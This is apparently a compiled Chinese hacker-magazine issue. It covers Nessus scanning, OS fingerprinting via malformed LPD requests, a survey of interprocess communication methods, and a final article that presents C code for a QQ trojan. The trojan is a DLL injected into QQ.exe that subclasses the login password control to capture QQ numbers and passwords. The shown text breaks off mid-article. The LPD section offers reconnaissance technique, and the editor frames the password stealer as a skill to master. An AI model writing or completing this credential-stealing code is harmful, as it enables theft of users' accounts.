

默认情况下，所有的插件都是选取的。如果你事先了解到目标主机的一些信息，可以根据目标主机的具体情况选择合适的插件，这样精简一下，可以使扫描时间更短。

### 编后

从官方网站可以看出，Nessus 的开发者们更愿意把它看作是安全审计的工具，而不是一个端口扫描器。系统管理员可以根据这些检测结果来修补漏洞，增强服务器的配置。当然，如果你是一个黑客的话，也可以根据检测结果找准下刀的地方：脱光了羽毛的肉鸡已经摆在你的面前了：）

icefire：现在已经有许多方法可以用来探查（猜测）远端主机的操作系统，其中一些方法是基于数据包的，其他的一些则是基于某些特定的守护进程在一定的错误（“非标准”）情况下的固定行为。下文就描述了一种以行式打印机守护进程（line printer daemon，lpd）来作为知识库，并将它用以探测远端主机的方法，具有一定的代表性。

### 利用 LPD 请求探查远程操作系统

文／Tico

在本文正式开始之前，我们先解释几个名词，有助于大家更好地理解下面的内容。

探查（Determine）：“猜测”（Guessing），尽可能准确地猜测远端主机所用操作系统。

错误（Erroneous）：“不正确的”（Incorrect），指发送至远端主机行式打印机守护进程的请求状态。我们称之为“错误”，因为它并未使用由 RFC 定义的正确的请求格式。

有效的（Valid）：正确的（Correct），指发送至远端主机的请求的语法，正确的语法应当遵循 RFC 定义的规则。

各种工具与行式打印机守护进程（LPD）交互。为控制打印工作，各种假脱机打印工具发送合乎 LPD 协议的合法请求至行式打印机守护进程。请求的样子和格式会在下文中加以讨论。我们只要知道确实存在这样的“请求格式”可以成功地发送指令到 LPD 就可以了。

#### 基于守护进程的指纹识别

基于守护进程的指纹识别在很大程度上依赖于特定系统平台上的守护进程的确定性。重要的是要认识到，我们对守护进程的指纹识别是在应用层上进行的，反之，对 TCP/IP 堆栈的指纹识别则是发生在核心层（缺省窗口大小、TTLs 等）上。所以用于进行指纹识别的应用程序（在此处是守护进程）必须是在系统中缺省安装的那一个，这是非常重要的，因为这样才能有助于探查远端主机上运行的操作系统。随着守护进程的版本和其他特性的不同，它会给出完全不同的操作系统指纹。

下面的例子中，使用 identd 演示了操作系统中守护进程的确定性对我们指纹识别一台主机具有的重要影响。

#### LPD 协议规范

本文的内容基于 RFC 1179（行式打印机守护进程协议，L. J. McLaughlin III）给出的规范。UNIX 系统用各种工具结合起来完成行式打印机的假脱机打印：

- lpr（作业递交至队列）
- lpq（显示队列）
- lprm（从队列中删除）
- lpc（控制队列）

所有这些工具（“程序”）与行式打印机守护进程交互。

```text
identd Red Hat 6.2 的指纹
-> pidentd 3.0.10 2.2.5-22smp (Feb ...)
```

上面是 Red Hat 6.2 和 7.0 分别给出的缺省的 identd 指纹；但如果想把 identd 的版本交换一下，在 Red Hat 7.0 上运行 6.2 中缺省的 identd，那么应用层的 identd 指纹识别就会给出 Red Hat 6.2 这一识别结果，而实际上操作系统却是 Red Hat 7.0。这就是我们在进行应用层指纹识别时应当注意的漏洞。

### 理论分析

“行式打印机守护进程指纹识别”这一概念的理论背景不超出 RFC 1179（行式打印机守护进程）描述的范围。如同我们前面提到的，发送到 LPD 的请求格式具有特定的层级结构。在 RFC 1179 中描述的“正确的”信息格式如下所列：

> [RFC 1179，3.1 小节·信息格式]
>
> “所有的指令有一个单字节代码开始，该代码表示所请求动作的二进制码。代码之后紧跟以 ASCII 码表示的所请求动作作用的打印队列名。指令的结束以 ASCII 换行代码标记。”

> [RFC 1179，第 7 节·控制文件行]
>
> “控制文件的每一行包括一个单独的、可打印的 ASCII 字符，用以表示该文件被打印时应进行的动作。此命令字符的解释是区分大小写的。该行指令字符后面的其他部分是该指令的操作对象。”“每一个控制文件中都必须包括某些指令，这些指令包括‘H’（责任主机）和‘P’（责任用户）。另外，至少应有一个小写指令以产生任意输出。”

上面的引文描述了构成一个请求的正确的消息／查询结构。而在我们的理论分析中，我们并不关心第一段 RFC 引文（关于消息格式）的内容，因为我们不是真的要发送过去一个打印格式请求。主要是我们不想在那边的哪一台打印机上真的打印出点什么来。所以正如你所猜想的，我们要用控制文件指令“探查”远端主机可能是什么操作系统。普通的（“正确的”）打印请求是下面这个样子：

下面是符合 RFC 1179 定义的语法的例子：

| 字段 | 内容 | 结束 | 说明 |
|---|---|---|---|
| H | 10.0.0.2 | LF | 命令码 {H} -> “来源主机” |
| P | 502 | LF | 命令码 {P} -> “用户 id” |
| f | file.txt | LF | 命令码 {f} -> “欲打印文件名” |

这样，在来源（发起请求）主机和用户 id 通过验证之后，文件“file.txt”被打印出来。由于我们是在对远端系统进行指纹识别，所以不大可能拥有合法的“来源主机”和“用户 id”，所以不能完成一次有效的打印请求，我们只能依靠其他方法向远端主机请求 lpd 信息。

这就是说，我们不是发送一个合法的、有着正确的语法结构格式的请求，而是发送一个错误（“不正确”）的请求，看看远端主机的 LPD 如何应答我们。在这里我们会舍弃验证信息 {H} 和 {P}，并把 {f} 换成其他指令以确保我们不会得到一个自相矛盾的回答。

```text
[下面我们完全不理会 RFC 1179 的规定]
| M | user | LF | - 命令码 {M}
> “印后发信”
```

在这个场景中，我们发送了一个畸形的请求到远端主机 LPD，然后等待它的应答。这一应答的格式和内容会揭示出错误通知信息的形式，而这一信息在很多情况下是随操作系统而异的。下面我们就可以创建一个 lpd 的可能应答的数据库并以其与某些操作系统进行比对。

### 实际操作分析

为清楚表明不同的操作系统实际上是不同的 LPD，有不同的响应方式。下面提供了一个小程序，以此显示不同的 LPD 指纹间的异同。该程序发送如下所示畸形请求：

```text
| M | r00t | LF |
```

下面是发送上述畸形请求后得到的信息：

```text
(ninja)-([f0bic]-[~])$ ./lpprint
XXX.XXX.4.130
--- Connected to lpd on XXX.XXX.4.130
--- Reply: Invalid protocol request
(77): MMr00t

[这是 SunOS/Solaris 5.7 box]

(ninja)-([f0bic]-[~])$ ./lpprint
XXX.XXX.59.200
--- Connected to lpd on XXX.XXX.59.200
--- Reply: invalid protocol request
(77): MMr00t

[这是 SunOS/Solaris 5.6 box]
```

发现相同点了吗？现在试一下另外的系统：

```text
(ninja)-([f0bic]-[~])$ ./lpprint
XXX.XXX.153.2
--- Connected to lpd on XXX.XXX.153.2
--- Reply: 0781-201 ill-formed FROM address

[这是 AIX 4.3 box]

(ninja)-([f0bic]-[~])$ ./lpprint
XXX.XXX.14.203
--- Connected to lpd on XXX.XXX.14.203
--- Reply: 0781-201 ill-formed FROM address

[这是 an AIX 4.3 box]
```

我们从不同的操作系统中得到了不同的回应，而相同的操作系统返回相似的信息。

### 编者注

> 有一些操作系统（Compaq Tru64 Unix、HP-UX 及某些类似的系统）会返回零长度响应，这使得我们很难将其分辨开来。但是大多数操作系统会返回或相似（相同的操作系统）或相异（不同的操作系统）的信息。

### 编后

上面作者提供了利用打印机返回信息识别操作系统的方法，具有一定的实用性。为了提高效率，作者还编写了一个“概念验证”工具，其中包含一个 LPD 返回信息及与之相应的操作系统的数据库，方便大家研究使用。该工具可以从 http://www.low-level.net/ 得到，工具的名称是“lpdfp”。下载地址为 http://www.low-level.net/~f0bic/releases/lpdfp.tgz。该工具已经收录入本期光盘杂志相关文章目录中，按照文章名查找即可。

### 程序间通信的各种途径及解析

文：HBU 小组、theCrat

icefire：程序间通信的主要目的是实现多台计算机（也可以是同一台）中应用程序之间的数据共享与信息交换。在不同的计算机系统中，它们之间要通过网络间的协议才能实现数据共享与信息交换；在同一台计算机系统中，它们之间只需一定的通道就能实现数据共享与信息交换。在不同计算机系统和同一计算机系统的程序通信中，既有很多相同之处，也有各自的特点。程序间通信都要靠一定的通道（pipe）来实现，其中的通道多种多样，各具特色。为了帮助大家充分认识和掌握程序间通信及其相应的实现技术，本文作者对各种通信方法进行了讨论，包括每种方法的原理和实现等，相信会对大家有所帮助。

在开始本文之前，我们首先要明白，各个程序间是相互独立的，它的运行环境不会因为别的进程而改变，这一点大家要记住。下面我们就开始分门别类地讲解各种通信途径及实现方法。

#### Socket 途径

Socket 编程是一种典型的会话编程方式，类似于老师家访，敲门 -> 有人开门 -> 进去 -> 交流 -> 出门。它适用于 Client/Server 通信方式，也适用于点对点通信方式。下面分别介绍服务端和客户端的具体任务，以 TCP 过程为例。

### 1. 服务端

服务端首先创建一个套接字，使用 socket() 调用；然后使用 bind() 将该套接字与本地 IP 和某一端口相关联（该端口可以是空闲的，也可以是非空闲的，具体的可以参阅笔者的《对端口截听的实现》这篇文章）。使用 listen() 让套接字等候进入连接，然后用 accept() 使套接字做好接受客户连接的准备。当连接请求到来后，被阻塞服务进程的 accept() 函数生成一个新的套接字与客户套接字建立连接，并向客户端返回接收信号。用 read() 来读入数据，用 write() 来向发送进程写回一些数据，如确认信息或回显信息。

### 2. 客户端

客户端进程也是先创建一个套接字，用 socket() 调用，然后客户向服务进程发出连接请求，通过调用 connect() 可以建立一个端到端的连接，连接成功后用 write() 向服务端发送数据，用 read() 读取服务端返回的数据。

这种方式隐含了在建立 client/server 间通信的非对称性。Client/Server 模型工作时要求有一套为客户机和服务器所共识的惯例来保证服务器能够被提供（或被接受），这一套惯例包括了一套协议，它必须在通信的两头都被实现。根据不同的实际情况，协议可能是对称的或是非对称的。在对称的协议中，每一方都有可能扮演主从角色；在非对称协议中，每一方则是主机或从机。例如终端仿真 TELNET 是对称协议，HTTP 是非对称协议。无论具体的协议是对称的还是非对称的，当服务被提供时必然存在客户端进程和服务进程。这种通信方式适用于单个计算机系统，也适用于多个计算机系统。

```c
WSADATA wsaData;
WORD version = MAKEWORD(2, 0);
```

```cpp
int ret = WSAStartup(version, &wsaData);
if(ret != 0)
    AfxMessageBox("Initialize Error!\n");

m_hSocket = socket(AF_INET, SOCK_STREAM, 0);

m_addr.sin_family = AF_INET;
m_addr.sin_addr.S_un.S_addr = INADDR_ANY;
m_addr.sin_port = htons(m_nPort);

int ret = 0;
int error = 0;
ret = bind(m_hSocket, (LPSOCKADDR)&m_addr, sizeof(m_addr));
if(ret == SOCKET_ERROR){
    TRACE("Bind Error: %d \n", WSAGetLastError());
    return;
}

ret = listen(m_hSocket, 2);
if(ret == SOCKET_ERROR){
    TRACE("Listen Error: %d \n", WSAGetLastError());
    return;
}

SOCKET s = accept(m_hSocket, NULL, NULL);
if(s == SOCKET_ERROR){
    TRACE("Accept Error: %d \n", WSAGetLastError());
    return;
}

char buff[256];
ret = recv(s, buff, 256, 0);
if(ret == 0 || ret == SOCKET_ERROR){
    TRACE("Recv data error: %d\n", WSAGetLastError());
    return;
}

char buf[] = "hello";
send(s, buf, strlen(buf), 0);
```

## file 途径

这种方法很原始，使用率也很少，而且占用磁盘空间。利用文件作为程序间通信的通道，程序 A 向一个文件写入数据，程序 B 通过读取这个文件中的数据从而与程序 A 进行通信，同时这一过程也可以是反向的。这种方法使用的前提是运行程序的用户需要具有对磁盘读／写的权限。即下面这样的一个过程：

- A. WriteFile -> fileA <- B. ReadFile(check every <time>)
- A. ReadFile(check every <time>) -> fileB <- B. WriteFile

以下是具体的程序实现方法。

```cpp
// A
int buff = 0;
ofstream Table;
Table.open("c:\\temp.txt");
Table << buff << endl;
Table.close();

// B
int buff = 1;
for(;;)
{
    ifstream Table;
    Table.open("c:\\temp.txt");
    Table >> buff;
    Table.close();
    if(buff == 0){
        printf("Operation code equal 0");
        return;
    }
    sleep(10);
}
```

这种方法适用于单个计算机系统，也适用于多个计算机系统。用这种方法在多个计算机系统间进行控制和数据交换，可以将这个文件放于一台计算机上，对方建立空连接，拷贝此文件到本地进行读取，当然也有其他的很多方法。

#### Signal 途径

这种方法仅用于进程控制，不能进行数据交换。例如在发生非法内存访问、执行无效指令、某些按键（如 Ctrl+C、Del 等）时都会产生一个信号，其他程序调用有关的系统调用或用户自定义的处理过程进行处理。

信息处理的系统调用是 signal，它的原型是：

```c
void (*signal( int sig, void (__cdecl *func)( int sig [, int subcode ] ) ) )( int sig );
```

这个函数可以让一个进程选择很多方法中的一种去处理操作系统返回的中断信号。

根据类似的思路，我们也可以在多个程序间利用“信号”进行程序间的通信。这种方法的关键是产生信号，可以通过 keybd_event() 产生信号，这个函数能够起到模拟键盘输出的作用，它的函数原型是 VOID keybd_event(BYTE bVk, BYTE bScan, DWORD dwFlags, DWORD dwExtraInfo);，bVk 是一个虚拟键码，bScan 是扫描码，对应相应的键。

这种方法适用于单个计算机系统。

#### Pipe 途径

管道（Pipe）是一种简单的进程间通信（IPC）机制，分为无名管道和有名管道两种。命名管道可以在同一台机器的不同进程间以及不同机器上的不同进程间进行双向通信（使用 UNC 命名规范）。管道的最大好处在于，它可以像对普通文件一样进行操作，它的操作标识符是 Handle，也就是说，它可以使用 ReadFile 和 WriteFile 函数进行与底层实现无关的读写操作，用户根本就不必了解网络间／进程间通信的具体细节。

无名管道实际上是内存中的一个临时存储区，由系统安全控制，并且独立于创建它的进程的内存区。管道对数据采用先进先出的方式管理，并严格按顺序操作，管道不能被搜索，管道中的信息只能读一次。无名管道只是父子进程之间或者一个进程的两个子进程之间进行通信。它是单向的。无名管道其实是通过一个指定名字的有名管道来实现的。有名管道的操作和无名管道类似。

管道的创建使用 CreatePipe() 函数，用 ReadFile() 和 WriteFile() 对其进行操作。以下是其代码实现：

```c
SECURITY_ATTRIBUTES a;
HANDLE hReadPipe, hWritePipe;
CreatePipe(&hReadPipe, &hWritePipe, &a, 0);
unsigned long lBytesRead;
char Buff[1024];
int ret;
while(1)
{
    ret = PeekNamedPipe(hReadPipe, Buff, 1024, &lBytesRead, 0, 0);
    if(lBytesRead)
    {
        ret = ReadFile(hReadPipe, Buff, lBytesRead, &lBytesRead, 0);
        if(!ret) break;
    }
    else
    {
        // lBytesRead = ...;
        if(lBytesRead <= 0) break;
        ret = WriteFile(hWritePipe, Buff, lBytesRead, &lBytesRead, 0);
        if(!ret) break;
    }
}
```

#### MQ 途径

消息通信方式以消息缓冲区为中间介质，通信双方的发送和接收操作均以消息为单位。在存储器中，消息缓冲区被组织成队列，通常称为消息队列（MQ）。消息队列是独立于生成它的进程的一段存储区，任何具有正确访问权限的进程都可以访问消息队列，它非常适用于在进程间交换短消息。

其中，每条消息有类型编号分类。消息队列在创建后将一直存在，直到使用相关的调用删除它为止。

对于下面的几种通信方式，还必须要了解“中间件（Middleware）”这一概念。

#### 共享存储段（SM）途径

共享存储段通信（shared memory）允许多个进程在外部通信协议或同步／互斥机制的支持下使用同一个内存段作为中间介质进行通信，它是一种很有效的数据通信方式。在进行通信之前，先创建一个共享内存段，然后进行映射和分离操作；同时可以根据需要改变共享内存段的存取权限以及其他的一些特征。

中间件是一类软件，它对应用程序隐含了实际网络和通信协议的细节。高级编程接口帮助开发者在不同的环境中创建应用程序，而不需要对将使用的网络和通信协议有更多的了解。正常情况下，中间件用于不同网络通信协议的客户机／服务器环境。它可以对客户机／服务器应用隐藏协议，从而使开发人员集中精力于改进应用程序，而不是开发通信接口。

中间件产品隐藏了前端应用程序和后端应用程序的区别。中间件层包括通用应用程序和流行应用程序的应用程序编程接口（API）之间的翻译功能。例如，Microsoft 的开放式数据库连接（ODBC）标准提供后端数据库系统操作的通用功能。前端应用程序写入 ODBC，并利用它的功能。ODBC 隐藏了不同厂商的 SQL 实现的区别。Microsoft 以一组 Microsoft Windows 驱动程序的形式提供 ODBC，以提供对 Microsoft Access、Microsoft Excel、Microsoft SQL Server、FoxPro、Btrieve、dBASE、Borland Paradox、IBM DB2、DEC Rdb 和 Oracle 等格式产生的数据的访问。ODBC 是为了使 Windows 成为客户访问后端数据库的标准而设计的。

在多协议、多厂商环境下，通常一个程序员需要编写应用程序，来与每个协议和支持系统进行工作。使用中间件，程序员只需简单地编写到中间件的接口，而由中间件处理所有多协议、多厂商问题。有 3 种类型的中间件：远程过程调用（RPC）、会话（Conversations）和消息传递系统。它们都能很好地隐藏通信过程，以及与它们进行操作的系统差异。

#### RPC 途径

一个远程过程调用是在网络上一个计算机系统对另一计算机系统的请求。RPC（Remote Procedure Call）保持了中间件在不同网络平台和通信协议上工作的性质。基本上，一个 RPC 就是一台计算机向另一台计算机发出的直接请求。它是一种请求／回答的过程，这时请求方等待一个回答，这意味着 RPC 通常是在面向连接界面上发生的一种实时呼叫。

RPC 机制强制通信的两个应用程序必须同时处于运行状态。做远程调用时，两者必须先建立连接，而且通信链路质量对它的效果影响很大。

它的工作方式是：当一个应用程序 A 需要与远程的另一个应用程序 B 交换信息或要求 B 提供协助时，A 将在本地产生一个请求；通过通信链路，通知 B 接收信息或提供相应的服务。B 完成相关处理后将确认信息或结果返回给 A。

RPC 的优点是应用程序采用调用／返回方式通信，拥有很高的潜在效率，但需要应用程序间的紧密耦合，通信线路必须在通信期间一直保持良好的状态，而且必须进行大量的底层通信的编程工作。

#### Conversations 途径

会话（Conversations）是逻辑连接的两个或多个系统之间的连续会话。同 RPC 不同，在分布式环境下，会话可能会重叠执行。出于这个原因，对需要在多个地方必须完全同步地完成、修改分布式数据库的工作，会话是非常必要和有益的。IBM 的高级程序对程序通信（APPC）实现了会话，用于实现会话的 OSI 标准也已出现。Covia Technologies（Rosemont，Illinois）的通信集成器（CI，Communication Integrator）是具有会话的中间件的另一个例子，它可以在大型计算机、中型机和台式机上运行。

```c
dwAccess, DWORD dwShareMode, LPQUEUEHANDLE phQueue);
```

## MQSeries消息队列途径

为了简化应用程序间的通信，使得通信具有较高的可靠性，又保证实现的简单性，中间件技术是我们的首选，IBM公司的MQSeries就是基于这种技术的产品。MQSeries是一种独立的通信软件，应用程序只需将任务提交给该软件，就可以由该软件自动去完成信息的传递工作。例如：



应用程序间的消息传递是通过队列来实现的，是间接的，所以即使B没能正常运行时，A仍然能正常运行，而且消息还可以唤醒B。

可见，MQSeries的优点是可以确保信息是永久的、可恢复的，确保信息传递的安全性，确保信息的成功发送且只发送一次，同时，还可以使各应用程序可以独立地正常运行。

无论是共有的还是私有的队列，都是用 MQOpenQueue() 打开，MQOpenQueue 函数用来打开一个用来发送消息或是读取消息的队列。它的原型是：

```c
HRESULT APIENTRY MQOpenQueue(
    LPCWSTR lpwcsFormatName, DWORD dwAccess,
    DWORD dwShareMode, LPQUEUEHANDLE phQueue);
```

其中，lpwcsFormatName 是用户指定的指向队列的 format name 字符串，这个 format name 可以是 public、private，或者是 direct format。dwAccess 是由用户指定的应用程序使用队列的方法，可以是 peek、send、receive。

当队列打开以后这个设置就不能被更改。dwAccess 有 3 种模式：MQ_PEEK_ACCESS、MQ_SEND_ACCESS 和 MQ_RECEIVE_ACCESS。dwShareMode 是由用户指定的队列的共享模式，分为 MQ_DENY_NONE 和 MQ_DENY_RECEIVE_SHARE，MQ_DENY_NONE 是默认值，允许任何人使用；如果 dwAccess 设置成了 MQ_SEND_ACCESS，那么在此就必须设置成 MQ_DENY_NONE。MQ_DENY_RECEIVE_SHARE 限制了从此队列读取消息的进程。如果这个队列已经被别的进程打开用来接收消息，那么将返回 MQ_ERROR_SHARING_VIOLATION。MQ_DENY_RECEIVE_SHARE 仅适用于当 dwAccess 设置成 MQ_RECEIVE_ACCESS 或 MQ_PEEK_ACCESS 的时候。phQueue 是输出的已打开的队列的句柄，然后可以用 MQSendMessage() 和 MQReceiveMessage() 等函数进行具体操作，在此不多赘述。

> **编后：**
>
> 通过本文我们应该明白，技术是一点一滴积累起来的，对任何知识点的系统性掌握很有必要也很有用。各种通信的实现技术都具有自己的特点和使用范围，管道、消息队列、共享内存等技术最适用于同一计算机系统内部的进程间通信，以保证高效率；而远程过程调用、Socket会话编程、MQSeries则最适用于远程的应用程序之间通信，可以简化通信的编程，也保证了通信的可靠性。尤其是MQSeries，它是一个比较完善的中间件产品，为许多的信息系统所选用。对各种通信技术的合理搭配使用，常常能起到事半功倍的作用。

icefire：网上有不少关于写盗取密码程序的编程思路，相信各位编程爱好者也很熟悉了。但是，不知道你是否能够做到不用任何类库，仅仅用 Windows API 来编程实现呢？这可是高手的一个基本特征呀。好了，废话少说，赶紧直奔主题，让我们看看如何利用子类化技术来编写一个 QQ 木马！

### 利用子类化技术实现 QQ 木马

文／FEI


近日读了一些时飞的文章，颇觉得有所启发。有了点思路，就试着写了一个盗取 QQ 密码的程序。我当然知道这已是很老套的东西了，但我的方法跟一些工具的实现方法略有不同，非常简单，看了之后或许对大家有所启发。

子类化（SubClass）是编写 Windows 程序时常用的一种方法，可能用惯了 VB、Delphi 等 RAD 工具的朋友没听过这个东西。实际上，如果不用任何类库，仅仅用 Windows API 写一个 Windows 窗口程序的话，子类化是非常有用的一种方法。

我们都知道，在 Windows 中程序与用户交互是通过窗体进行的。窗体是系统的一种对象，有窗体类和窗体属性。窗体的行为都是基于消息的，为了处理消息，在窗体类中定义了窗体函数，由窗体函数根据消息的不同而作出相应的动作。每个应用程序（确切地说应该是线程）都有它自己的消息队列，在主线程的消息循环中，特定的消息被发送到相应的窗体函数。

Windows 里有很多预定义的窗体类，如 Edit、Button 等，也就是所谓的通用控件。你可以用 Button 作为类名来调用 CreateWindow，然后使用 SetParent 将这个 Button 设置成你程序窗体的子窗体，再用 MoveWindow 作相应的调整，就可以把一个按钮加到你的程序界面上来。

说了这么多废话，那么什么是“子类化”呢？其实就是使用 SetWindowLong 为窗体设定一个新的窗体函数，从而按自己的意愿来处理某些特定的消息。SetWindowLong 的返回值是原窗体函数的地址，对于你不关心的消息，可以通过 CallWindowProc 转给它来处理。比如有一个 Button，想让它在每次按下时都响一下，就可以按照预定义的函数声明写一个这样的函数，在其中进行判断，如果消息是 WM_LBUTTONDOWN（鼠标左键被按下）就用 MessageBeep 响一下，然后再传给原窗体函数，否则就直接传给原窗体函数，把这个函数设成 Button 的窗体函数，以后按钮按下时就会连带地响一声。

不过，恐怕现在已经没有人还会用这种方法来做程序了。在 Delphi 和 VB 中，这些东西早就已经变成了各种事件的处理。实际上，子类化用来做消息拦截更好一些。但我们在这里不想做什么拦截，仅仅是为了在用户输入完密码后得到一个“通知”罢了。

有了上面的概念，下面就来说一下木马的主体设计思路。要获得用户输入的 QQ 号和密码，无非就要用到 SendMessage 发送 WM_GETTEXT 消息到相应的 Edit 控件来取得其中的内容；但是这种方法在 Windows 2000 和 XP 下就要失效。另外，要进行子类化操作，在 Windows 2000 和 XP 下也仅对同一进程内的窗体才有效，所以要采用 DLL 注入的方式，木马的主体是一个 DLL。对于 DLL 注入的方法，我最后会进行说明，先假设 DLL 已经进入目标进程就行了。当 DLL 被进程加载后，DllMain 就会执行，在 DllMain 中，创建了一个线程，每隔一段时间就对系统中的窗体进行枚举，当发现 QQ 的登录窗口或注册向导窗口后就用 DLL 中带的窗体函数对其进行子类化，而在窗体函数中，如果发现是用户的登录确认消息就用 SendMessage 得到 QQ 号和密码，然后进行保存。下面是程序的具体实现。

### DLL 的入口函数 DllMain

```c
BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD fdwReason,
                      LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        DisableThreadLibraryCalls((HINSTANCE)hModule);
        hspyd = CreateThread(NULL, 0, spyd, 0, 0, NULL);
        break;

    case DLL_PROCESS_DETACH:
        if (hspyd) TerminateThread(hspyd, 0);
        break;
    }
    return TRUE;
}
```

很简单，仅仅是监视线程的建立和终止。DisableThreadLibraryCalls 是告诉系统，对于线程的建立和终止不处理 DllMain。

DllMain 是 DLL 的入口函数，类似于 WinMain，当 DLL 加载、卸载或线程建立或终止时自动被系统调用，其中参数 fdwReason 表明的是被调用的原因。这个机制允许 DLL 进行一些简单的初始化或建立相关的线程数据。

监视线程 spyd 的内容如下：

```c
DWORD WINAPI spyd(LPVOID lpParameter)
{
    getImageName(szbuf);
}
```

```c
if (strcmp(szbuf, "QQ.exe")) return 0;
else
    qpid = GetCurrentProcessId();   // QQ process id
while (1)
{
    EnumWindows(wdwscan, 0);
    Sleep(100);
}
return 0;

BOOL CALLBACK wdwscan(HWND hwnd, LPARAM lParam)
{
    DWORD cwpid;        // current window's process id
    LONG  wndproc;
    HWND  hedt;

    GetClassName(hwnd, szbuf, lbuf);
    if (strcmp(dlgclsname, szbuf)) return TRUE;
    GetWindowThreadProcessId(hwnd, &cwpid);
    if (qpid != cwpid) return TRUE;
    hedt = getQQEditH(hwnd, ES_PASSWORD);
    if (hedt) {
        wndproc = GetWindowLong(hedt, GWL_WNDPROC);
        if (wndproc != (long)epassProc)
            pproc = SetWindowLong(hedt, GWL_WNDPROC, (long)epassProc);
    }
    return TRUE;
}
```

线程函数 spyd 首先调用 getImageName 得到进程的映像名（szbuf 是一个全局的 char 型数组），然后判断是不是 QQ 的进程，如果不是就退出，否则取到进程 ID 并保存到全局变量 qpid 中，然后进入死循环，隔一段时间就对系统中的窗体进行枚举。函数 wdwscan 是 EnumWindows 的回调函数，对于枚举到的任何一个窗体，wdwscan 先用 GetClassName 获得窗体类名，然后比较是不是对话框类，dlgclsname 的声明如下：

```c
const char *dlgclsname = "#32770";
```

QQ 的登录窗体和注册向导窗体都是这个类，接着获得窗体所属进程的 ID，以判断是不是为本进程（QQ 进程）所有。如果比较失败，函数会返回，否则就进行了子类化。

对于子类化就要说明一下了，最开始我是直接对 QQ 的登录窗体和注册向导窗体进行了子类化，拦截 WM_COMMAND 消息以获得“登录”或“下一步”按钮被按下时的“通知”，因为两个按钮的 ID 不一样，所以写了两个窗体函数，要对它们进行区分。我用判断原窗体函数和对话框函数（DWL_DLGPROC，查下 GetWindowLong 的帮助就知道了）的方法，对它们分别用不同的函数进行子类化。但是写好后却发现 QQ 登录窗体那个函数根本截获不到任何消息（估计应该是腾讯做了手脚，有兴趣的话可以研究一下），用注册向导时可以抓到密码。不得已，我子类化了“登录”按钮，在收到 WM_LBUTTONDOWN 时进行密码记录。

